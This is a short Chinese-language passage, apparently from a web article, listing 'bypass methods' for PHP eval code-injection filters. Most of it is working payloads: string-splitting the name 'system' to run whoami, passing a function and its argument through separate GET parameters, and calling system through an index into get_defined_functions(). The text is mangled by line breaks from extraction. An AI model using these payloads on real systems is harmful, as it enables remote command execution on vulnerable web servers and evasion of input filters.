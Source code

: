 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/RicF3aYe3icW4ct3ZPWkRu2ibudTt0U3bmicxVefLIofqtVPDQWtKBicAsWOIAPMHhlcs8yVI7KW1vlH1Mj5TYWPfqg/640?wx_fmt=png&from=appmsg "")  
  
部分绕过方式
案例  
  
  
1.逃逸  
  
1.  
?code  
=$a  
=sys  
;$b  
=tem  
;$c  
=$a  
.$b  
;echo  
%  
20  
$c  
(whoami  
);拆分数据多行执行因为eval函数可以将数据多行执行  
2.  
?a  
=system  
&b  
=dir  
&code  
=$_GET  
[a  
]($_GET  
[b  
]);构造传参逃逸作用域因为eval函数可以将数据多行执行  
  
  
2.get_defined_functions  
  
PHP系统函数会返回一个多维数组  
,  
该数组包含了一个所有已定义函数  
(包含内部函数和用户定义函数  
)列表内部函数可以通过  
[  
"internal"  
][数字  
]多维数组表  
457值为system  
get_defined_functions  
()[  
"internal"  
][  
457  
](whoami  
)  
=  
system  
(whoami  
)  
  